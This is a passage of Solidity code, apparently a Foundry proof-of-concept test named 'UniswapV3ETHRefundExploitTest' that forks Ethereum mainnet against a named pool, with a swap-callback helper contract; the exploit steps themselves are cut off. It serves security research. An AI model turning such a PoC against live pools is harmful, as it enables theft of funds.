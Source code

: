 ```solidity
            sqrtPriceLimitX96: _projectTokenIsZero ? MAX_SQRT_RATIO - 1 : MIN_SQRT_RATIO + 1,
            data: abi.encode(minOutput)
        });

        return (amount0, amount1);
    }

    function uniswapV3SwapCallback(int256 amount0Delta, int256 amount1Delta, bytes calldata data) external {
        // Check if this is really a callback
        require(msg.sender == address(pool), "Not Authorized");

        // Unpack the data
        (uint256 _minimumAmountReceived) = abi.decode(data, (uint256));

        // Assign 0 and 1 accordingly
        uint256 _amountReceived = uint256(-(_projectTokenIsZero ? amount0Delta : amount1Delta));
        uint256 _amountToSend = uint256(_projectTokenIsZero ? amount1Delta : amount0Delta);

        // Revert if slippage is too high
        require(_amountReceived >= _minimumAmountReceived, "min amount");

        // Wrap and transfer the weth to the pool
        weth.deposit{value: _amountToSend}(); 
        weth.transfer(address(pool), _amountToSend);
    }
    receive() external payable {}
}
contract UniswapV3ETHRefundExploitTest is Test {
    // IPool pool = IPool(0x88e6A0c2dDD26FEEb64F039a2c41296FcB3f5640);
    IPool pool = IPool(0x7379e81228514a1D2a6Cf7559203998E20598346);
    
    IERC20 projectToken;
    IWETH9 weth = IWETH9(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);

    function setUp() public {
        vm.createSelectFork("https://rpc.ankr.com/eth");

        vm.label(address(projectToken), "ProjectToken");
        vm.label(address(weth), "WETH");

        address pt = pool.token0();
        if (pool.token0() == address(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2)) {
            pt = pool.token1();
        }

        projectToken = IERC20(pt);
    }

    function testExploit() public {
        console.log("Testing for a pool :", address(pool));
        console.log("================================================================");
        Swapper swapper = new Swapper(pool);

        vm.label(address(swapper), "swapper");

        address user = makeAddr("user");
        uint256 amountIn = 1000_000 ether;
        uint256 minOutput = 0;

        vm.label(user, "user");
        vm.deal(user, amountIn);

```
